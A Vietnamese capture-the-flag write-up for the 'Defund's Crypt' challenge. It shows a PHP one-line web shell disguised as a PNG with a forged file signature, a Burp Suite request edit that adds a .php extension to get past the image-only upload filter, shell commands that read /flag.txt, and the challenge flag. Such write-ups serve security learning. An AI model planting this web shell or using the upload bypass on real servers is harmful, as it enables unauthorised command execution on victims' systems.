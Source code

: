 ## Defund's Crypt

- Vào web xem thì thấy có 2 gợi ý /src.php và /flag.txt
  Đọc source thì thấy đây là trang upload file, chỉ nhận các file ảnh với đuôi jpg,png,bmp.

- Vậy việc ta cần làm là up file có định dạng mà server cho phép nhưng ta vẫn thực thi được con shell ta up lên. 
  Lỗi này là lỗi up load trong php.

- Trước tiên ta tạo một file có nội dung là <?php system($_GET['cmd']); ?>, lệnh này quá quen thuộc phải không,
  ta lưu dưới tên myshell.png

- Ta add file signature của png vào file( search gg để tìm hiểu thêm, t dùng winhex để add) 

- Giờ thì upload file lên server, nhớ bật burpsuite để bắt traffic thay đổi request.

  <img src="./1.png">

- Lúc này mình thêm đuôi .php vào và kết quả

  <img src="./2.png">

- Lúc này test thử shell hoạt động không bằng cách ?cmd=ls , thì kết quả show ra

  <img src="./3.png">

- Nhớ tới gợi ý lúc đầu /flag.txt nên dùng ngay lệnh ?cmd=cat /flag.txt, ra flag: actf{th3_ch4ll3ng3_h4s_f4ll3n_but_th3_crypt_rem4ins} 
  <img src="./3.png">
  